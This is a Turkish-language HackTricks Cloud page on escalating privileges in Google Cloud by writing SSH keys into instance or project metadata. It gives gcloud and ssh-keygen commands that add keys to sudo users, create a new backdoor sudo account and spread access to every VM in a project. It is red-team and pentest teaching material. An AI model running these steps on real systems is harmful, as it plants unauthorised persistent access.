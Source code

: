 # GCP - Özel SSH Metadata Ekle

## GCP - Özel SSH Metadata Ekle

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **Bize katılın** 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) veya **bizi** **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

### Metadata'yı Değiştirme <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

Bir örnekte metadata değişikliği, **bir saldırgan gerekli izinleri elde ederse önemli güvenlik risklerine yol açabilir**.

#### **Özel Metadata'ya SSH Anahtarlarının Dahil Edilmesi**

GCP'de, **Linux sistemleri** genellikle [Google Compute Engine için Python Linux Misafir Ortamı](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts) üzerinden betikler çalıştırır. Bunun kritik bir bileşeni, **yetkilendirilmiş SSH genel anahtarlarına** yönelik güncellemeleri kontrol etmek için örnek metadata uç noktasını **düzenli olarak kontrol eden** [accounts daemon](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts)dır.

Bu nedenle, bir saldırgan özel metadata'yı değiştirebilirse, daemon'un yeni bir genel anahtar bulmasını sağlayabilir; bu anahtar işlenir ve **yerel sisteme entegre edilir**. Anahtar, **mevcut bir kullanıcının veya `sudo` ayrıcalıkları olan yeni bir kullanıcının** `~/.ssh/authorized_keys` dosyasına eklenir; bu, anahtarın formatına bağlıdır. Ve saldırgan, ana bilgisayarı tehlikeye atabilecektir.

#### **Mevcut ayrıcalıklı kullanıcıya SSH anahtarı ekleme**

1. **Örnekteki Mevcut SSH Anahtarlarını İnceleyin:**
*   Mevcut SSH anahtarlarını bulmak için örneği ve metadata'sını tanımlayan komutu çalıştırın. Çıktıdaki ilgili bölüm `metadata` altında, özellikle `ssh-keys` anahtarında olacaktır.

```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
* SSH anahtarlarının formatına dikkat edin: kullanıcı adı anahtarın önünde, iki nokta ile ayrılmıştır.
2. **SSH Anahtarı Metadata'sı için Bir Metin Dosyası Hazırlayın:**
* Kullanıcı adları ve bunlara karşılık gelen SSH anahtarlarının detaylarını `meta.txt` adlı bir metin dosyasına kaydedin. Bu, mevcut anahtarları korumak için gereklidir.
3. **Hedef Kullanıcı için Yeni Bir SSH Anahtarı Oluşturun (`alice` bu örnekte):**
*   Yeni bir SSH anahtarı oluşturmak için `ssh-keygen` komutunu kullanın; yorum alanının (`-C`) hedef kullanıcı adıyla eşleştiğinden emin olun.

```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
* Yeni genel anahtarı `meta.txt` dosyasına ekleyin, örneğin örneğin metadata'da bulunan formatı taklit ederek.
4. **Örneğin SSH Anahtarı Metadata'sını Güncelleyin:**
*   Güncellenmiş SSH anahtarı metadata'sını `gcloud compute instances add-metadata` komutunu kullanarak örneğe uygulayın.

```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```
5. **Yeni SSH Anahtarı ile Örneğe Erişim Sağlayın:**
*   Yeni anahtarı kullanarak SSH ile örneğe bağlanın ve hedef kullanıcı (`alice` bu örnekte) bağlamında shell'e erişin.

```bash
ssh -i ./key alice@localhost
sudo id
```

#### **Yeni bir ayrıcalıklı kullanıcı oluşturun ve bir SSH anahtarı ekleyin**

Eğer ilginç bir kullanıcı bulunamazsa, `sudo` ayrıcalıkları verilecek yeni bir kullanıcı oluşturmak mümkündür:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
#### Proje düzeyinde SSH anahtarları <a href="#sshing-around" id="sshing-around"></a>

**Proje düzeyinde SSH anahtarları uygulayarak** bulut ortamında birden fazla Sanal Makine (VM) için SSH erişimini genişletmek mümkündür. Bu yaklaşım, projede açıkça proje genelinde SSH anahtarlarını engellemeyen herhangi bir örneğe SSH erişimi sağlar. İşte özet bir kılavuz:

1. **Proje Düzeyinde SSH Anahtarlarını Uygula:**
*   `meta.txt` dosyasındaki SSH anahtarlarını projenin meta verilerine eklemek için `gcloud compute project-info add-metadata` komutunu kullanın. Bu işlem, SSH anahtarlarının projedeki tüm VM'ler tarafından tanınmasını sağlar, eğer bir VM "Proje genelinde SSH anahtarlarını engelle" seçeneğini etkinleştirmemişse.

```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```
2. **Proje Genel Anahtarları Kullanarak Örneklerine SSH Bağlan:**
* Proje genelinde SSH anahtarları mevcut olduğunda, projedeki herhangi bir örneğe SSH ile bağlanabilirsiniz. Proje genelinde anahtarları engellemeyen örnekler, SSH anahtarını kabul ederek erişim sağlar.
* Bir örneğe SSH ile bağlanmanın doğrudan bir yöntemi, `gcloud compute ssh [INSTANCE]` komutunu kullanmaktır. Bu komut, mevcut kullanıcı adınızı ve proje düzeyinde ayarlanan SSH anahtarlarını kullanarak erişim sağlamaya çalışır.

## Referanslar

* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
